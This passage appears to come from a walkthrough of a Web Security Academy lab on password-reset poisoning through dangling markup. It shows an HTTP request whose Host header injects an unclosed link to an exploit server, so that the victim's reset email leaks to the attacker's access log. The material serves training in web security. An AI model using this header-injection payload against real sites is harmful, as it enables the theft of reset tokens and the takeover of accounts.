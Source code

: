 The email above will also be our injection point for partially XSS. Idea of this `Dangling` attack is to poison HTML, like with XSS, by using tag like (img, a,...) pointing it to our controlled server and leaving the tag open (not closing Tags).

If we send Host with a header like this:

```
POST /forgot-password HTTP/1.1
Host: 0a4c00770427c3cdc0b732ee006d00b7.web-security-academy.net:'<a href="exploit-0a100050044cc386c015325d01860069.web-security-academy.net/?
```

## Exploitation 
If we do that and we know that `carlos` accesses the same Email client then we should now find the request in the `access logs`. 

![picture 136](/assets/images/cd6812fb9c69e5fcf919416f9be2c020bc8f3d00e0cbff6629b93bf85d3c0be6.png) 

So there we have two requests from different IP. One is for `wiener` and other one is for `carlos`.
